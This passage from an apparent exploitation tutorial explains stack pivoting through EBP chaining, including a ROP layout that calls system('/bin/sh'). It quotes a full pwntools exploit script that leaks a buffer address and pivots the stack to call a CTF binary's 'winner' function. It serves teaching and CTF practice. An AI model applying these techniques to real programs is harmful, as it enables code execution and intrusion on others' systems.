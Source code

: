 ```
It’s also common to use a RET sled in the stack and put the real ROP chain at the end to make it more probable that the new RSP points inside the sled and the final ROP chain is executed.

### EBP Chaining

By placing a controlled address in the saved `EBP` slot of the stack and a `leave; ret` gadget in `EIP/RIP`, it's possible to **move `ESP/RSP` to an attacker-controlled address**.

Now `RSP` is controlled and the next instruction is `ret`. Place in the controlled memory something like:

- `&(next fake EBP)` -> Loaded by `pop ebp/rbp` from `leave`.
- `&system()` -> Called by `ret`.
- `&(leave;ret)` -> After `system` ends, moves RSP to the next fake EBP and continues.
- `&("/bin/sh")` -> Argument for `system`.

This way it's possible to chain several fake EBPs to control the flow of the program.

This is like a [[../rop-return-oriented-programing/ret2lib/index.html|ret2lib]], but more complex and only useful in edge-cases.

Moreover, here you have an [[https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave|**example of a challenge**]] that uses this technique with a **stack leak** to call a winning function. This is the final payload from the page:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0x0,               # rbp (could be the address of another fake RBP)
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,
    elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (reach saved RBP)

payload += flat(
    buffer,         # Load leaked address in RBP
    LEAVE_RET       # Use leave to move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
```
```
